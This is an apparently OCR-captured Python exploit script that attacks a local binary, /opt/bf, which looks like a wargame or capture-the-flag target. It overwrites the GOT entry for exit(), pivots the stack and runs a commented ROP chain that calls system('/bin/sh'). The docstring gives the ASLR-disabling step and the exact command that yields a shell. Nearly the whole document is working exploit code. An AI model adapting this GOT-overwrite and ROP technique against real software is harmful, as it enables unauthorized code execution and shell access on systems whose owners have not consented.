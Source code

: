 ```python
#!/usr/bin/env python

"""
 disable ASLR using: ulimit -s unlimited

 after this, system() can be found at 0x40062000 and /bin/sh at 0x40161b94

 execute using the following to get shell: 

 (./sploit.py ; cat) | /opt/bf `python -c 'print ",>"*90'`\#
"""


buf = (

# overwrite GOT entry for exit() to point to 0x804867e. 
# this address will execute the following instructions to pivot us into 
# an area we control in the stack: add esp,0x24; pop ebx; pop ebp

# we just need to do 3 writes to overwrite the GOT entry for exit()
'\x54\x9a\x04\x08'
'\x55\x9a\x04\x08'
'\x56\x9a\x04\x08'


################### START OF ROP PAYLOAD ##################### 

# junk values removed by add esp,0x24; pop ebx; pop ebp
'XXXX'
'XXXX'
'XXXX'

'\xc1\x05\x10\x40'  # 0x401005C1: pop eax;
                    # eax needs to contain the address for /bin/sh. however 
                    # further down we have a gadget that does "adc al 0x5d"
                    # which will alter the value we pop into eax. therefore 
                    # we pop a value that will become the address of /bin/sh
                    # *after* "adc al 0x5d" is called

'\x37\x1b\x16\x40'  # 0x40161B37 popped into eax. this will turn this into 
                    # 0x40161b94 which is the real address of /bin/sh

'\x91\xa2\x10\x40'  # 0x4010A291: pop edx; pop ecx; pop ebx
                    # edx needs to contain the address for system(). however
                    # that address has a null byte, so instead of popping in 
                    # 0x40062000 we'll pop in 0x40062001 and decrement it
                    # in the next gadget

'\x01\x20\x06\x40'  # address of system()+1 popped into edx

'XXXX'              # junk for pop ecx
'XXXX'              # junk for pop ebx

'\xfa\xd4\x08\x40'  # 0x4008D4FA: dec edx ; adc al 0x5d 
                    # first instruction will decrement edx so it points to 
                    # system()
                    # second instruction will alter eax so it points to /bin/sh

'\x8c\x7e\x08\x40'  # 0x40087E8C: mov DWORD PTR [esp],eax; call edx
                    # move address of /bin/sh in eax into [esp], then 
                    # call edx which contains address of system()

################### END   OF ROP PAYLOAD ##################### 
```